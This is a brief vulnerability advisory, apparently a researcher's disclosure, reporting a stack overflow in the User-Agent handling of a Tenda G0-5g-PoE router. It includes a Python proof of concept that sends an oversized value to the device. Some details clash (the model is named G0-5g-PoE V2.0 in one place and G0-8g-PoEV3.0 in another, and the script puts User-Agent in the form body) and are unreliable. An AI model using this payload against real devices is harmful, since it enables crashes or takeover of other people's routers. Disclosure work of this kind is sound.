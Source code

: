 # Tenda G0-5g-PoE V2.0 access_dev_host_type
### Overview
vendor: Tenda

product: G0-5g-PoE V2.0

version: V16.01.1.8

type: Stack Overflow
### Vulnerability Description
Tenda G0-8g-PoEV3.0 V16.01.1.8 were discovered to contain a stack overflow in the access_dev_host_type function.
### Vulnerability details
In function access_dev_host_type line 15、19, it reads in a user-provided parameter `User-Agent`, and the variable `s` is passed to the `memcpy` function without any length check, which may overflow the stack-based buffer `v6`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/G0-5g-poev20-1-1.png)

### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/'
payload = {
    "User-Agent": 'a' * 2000
}

res = requests.post(url=url, data=payload)
print(res.content)
```
